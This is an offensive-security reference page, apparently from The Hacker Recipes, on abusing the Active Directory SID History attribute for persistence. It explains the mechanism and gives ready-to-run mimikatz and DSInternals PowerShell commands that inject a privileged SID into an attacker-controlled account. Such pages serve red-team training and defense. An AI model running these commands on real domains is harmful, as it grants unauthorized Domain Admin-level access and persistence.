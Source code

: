 ```yaml
---
authors: ShutdownRepo
---
```


# SID History

## Theory

The SID (Security Identifier) is a unique identifier that is assigned to each security principal (e.g. user, group, computer). It is used to identify the principal within the domain and is used to control access to resources.

The SID history is a property of a user or group object that allows the object to retain its SID when it is migrated from one domain to another as part of a domain consolidation or restructuring. When an object is migrated to a new domain, it is assigned a new SID in the target domain. The SID history allows the object to retain its original SID, so that access to resources in the source domain is not lost.

This mechanism can also be abused as a means of persistence: adding the SID of a privileged account or group to the SID-History attribute of a controlled account grants rights associated with account/group of which the SID is added.

For instance, the SID of an account with Domain Admin rights can be added to a normal user SID History to grant them Domain Admin rights (the rights would not be granted per say, but the modified account would be treated as domain admin when checking rights).

## Practice

> [!CAUTION]
> There is currently no way to exploit this technique purely from a distant UNIX-like machine, as it requires some operations on specific Windows processes' memory.

### Pre-Windows 2016

Modifying the SID History attribute of an object can be done using mimikatz, with the [`sid::patch`](https://tools.thehacker.recipes/mimikatz/modules/sid/patch), [`sid::add`](https://tools.thehacker.recipes/mimikatz/modules/sid/add) and [`sid::lookup`](https://tools.thehacker.recipes/mimikatz/modules/sid/lookup) commands.

Mimikatz cannot be used on 2016+ domain controllers for that purpose, due to an error with [`sid::patch`](https://tools.thehacker.recipes/mimikatz/modules/sid/patch) ([https://github.com/gentilkiwi/mimikatz/issues/348](https://github.com/gentilkiwi/mimikatz/issues/348))

> [!WARNING]
> Mimikatz must be launched with at least enough privileges to perform the [`privilege::debug`](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) command (i.e. domain admin or `SYSTEM`).

```powershell
# Generic command
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:UserRecievingTheSID /new:SIDOfTheTargetedUserOrGroup"

# Example 1 : Use this command to inject the SID of built-in administrator account to the SID-History attribute of AttackerUser
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:Builtin\administrators "

# Example 2 : Use sid::lookup to retrieve the SID of an account and inject it to the SID-History attribute of AttackerUser
mikikatz.exe "sid::lookup /name:InterestingUser"
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:SIDOfInterestingUser"
```

### Post-Windows 2016

The only known way to add a SID to the SID History attribute of an account on a Windows domain controller 2016 and above is to use the Powershell module [DSInternals](https://github.com/MichaelGrafnetter/DSInternals). This method also works for Pre-Windows 2016 domain controllers.

> [!CAUTION]
> The NTDS service must be stopped at some point and restarted for this procedure to work, which can cause various issues. Proceed with care, avoid production systems.

```powershell
# Install DSInternals on the domain controller
Install-Module -Name DSInternals

# Find the account SID you want to inject
Get-ADUser -Identity $InterestingUser

# Stop the NTDS service
Stop-service NTDS -force

# Inject the SID into the SID History attribute
Add-ADDBSidHistory -samaccountname AttackerUser -sidhistory $SIDOfInterestingUser -DBPath C:\Windows\ntds\ntds.dit

# Start the NTDS service
Start-service NTDS
```

## Resources

[https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory](https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory)

[https://attack.mitre.org/techniques/T1134/005/](https://attack.mitre.org/techniques/T1134/005/)

[https://adsecurity.org/?p=1772](https://adsecurity.org/?p=1772)

[https://forum.winbatch.com/index.php?topic=1545.0](https://forum.winbatch.com/index.php?topic=1545.0)

[https://learn.microsoft.com/en-us/windows/win32/ad/using-dsaddsidhistory#operational-constraints](https://learn.microsoft.com/en-us/windows/win32/ad/using-dsaddsidhistory#operational-constraints)

[https://learn.microsoft.com/en-us/windows/win32/api/ntdsapi/nf-ntdsapi-dsaddsidhistorya](https://learn.microsoft.com/en-us/windows/win32/api/ntdsapi/nf-ntdsapi-dsaddsidhistorya)

[https://secframe.com/blog/a-sidhistory-attack-marching-onto-a-dc/](https://secframe.com/blog/a-sidhistory-attack-marching-onto-a-dc/)
